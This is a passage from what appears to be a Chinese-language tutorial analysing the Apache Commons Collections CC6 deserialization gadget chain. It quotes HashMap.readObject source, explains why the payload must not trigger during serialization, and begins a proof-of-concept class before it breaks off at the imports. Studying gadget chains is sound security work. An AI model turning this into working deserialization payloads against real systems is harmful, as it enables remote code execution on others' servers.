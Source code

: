 ```java
        else if (mappings > 0) { // (if zero, use defaults)
            // Size the table using given load factor only if within
            // range of 0.25...4.0
            float lf = Math.min(Math.max(0.25f, loadFactor), 4.0f);
            float fc = (float)mappings / lf + 1.0f;
            int cap = ((fc < DEFAULT_INITIAL_CAPACITY) ?
                       DEFAULT_INITIAL_CAPACITY :
                       (fc >= MAXIMUM_CAPACITY) ?
                       MAXIMUM_CAPACITY :
                       tableSizeFor((int)fc));
            float ft = (float)cap * lf;
            threshold = ((cap < MAXIMUM_CAPACITY && ft < MAXIMUM_CAPACITY) ?
                         (int)ft : Integer.MAX_VALUE);

            // Check Map.Entry[].class since it's the nearest public type to
            // what we're actually creating.
            SharedSecrets.getJavaOISAccess().checkArray(s, Map.Entry[].class, cap);
            @SuppressWarnings({"rawtypes","unchecked"})
            Node<K,V>[] tab = (Node<K,V>[])new Node[cap];
            table = tab;

            // Read the keys and values, and put the mappings in the HashMap
            for (int i = 0; i < mappings; i++) {
                @SuppressWarnings("unchecked")
                    K key = (K) s.readObject();
                @SuppressWarnings("unchecked")
                    V value = (V) s.readObject();
                putVal(hash(key), key, value, false, false);
            }
        }
    }
```

需要注意的是，`HashMap`类中的`put()`方法也调用了`hash()`，要注意这里不能在序列化时调用到payload，否则会在序列化时就被执行。具体分析参考问题分析1

```java
    public V put(K key, V value) {
        return putVal(hash(key), key, value, false, true);
    }
```

到此整条链子是找完了，断点也差不多都打上了

然后就可以编写POC进行调试了，这里POC来源是bilibili：白日梦组长

## POC分析

```java
package com.dmsj.cc;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;


import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CC6Test {
    public static void main(String[] args) throws Exception{
```